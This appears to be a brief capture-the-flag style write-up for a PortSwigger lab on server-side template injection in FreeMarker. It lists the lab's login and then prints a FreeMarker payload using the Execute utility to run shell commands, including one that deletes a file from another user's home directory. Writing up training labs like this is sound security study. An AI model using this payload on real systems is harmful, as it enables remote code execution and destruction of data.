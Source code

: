 # Server-side template injection using documentation

## This lab is vulnerable to [server-side template injection](https://portswigger.net/web-security/server-side-template-injection). To solve the lab, identify the template engine and use the documentation to work out how to execute arbitrary code, then delete the `morale.txt` file from Carlos's home directory.

## You can log in to your own account using the following credentials:

`content-manager:C0nt3ntM4n4g3r`

---

### step 1

![screenshot](./images/lab3_template_expression.png)

### step2

![screenshot](./images/lab3_check_which_template.png)

### step3

### HINT: `<#assign ex="freemarker.template.utility.Execute"?new()> ${ex("id)}`

`<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("rm /home/carlos/morale.txt") }`

![screenshot](./images/lab3_template_execution_lab_solved.png)
